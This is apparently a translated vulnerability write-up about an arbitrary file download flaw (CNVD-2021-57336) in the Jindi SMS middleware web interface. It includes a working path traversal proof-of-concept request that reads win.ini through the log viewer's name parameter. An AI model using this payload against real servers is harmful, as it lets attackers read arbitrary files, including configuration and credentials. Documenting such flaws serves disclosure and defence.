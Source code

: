 # Jindi SMS Middleware Web Version log Any file download vulnerability in the background CNVD-2021-57336

## Vulnerability Description

Jindi SMS middleware Web version background has a vulnerability to download any file on the server. The attacker can obtain any file information on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Golden flute SMS middleware web version</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630892591726-addf7f10-4238-4266-92ef-758540f4142a.png)

The vulnerability is log download

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630892623230-03e19886-0499-4cbb-9cbf-abf9ca8ec2e2.png)

Verify POC

```python
/log?action=view&pageIndex=1&name=../../../windows/win.ini
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630892646440-d5dfd8da-0c22-49e4-86c3-d2978938f824.png)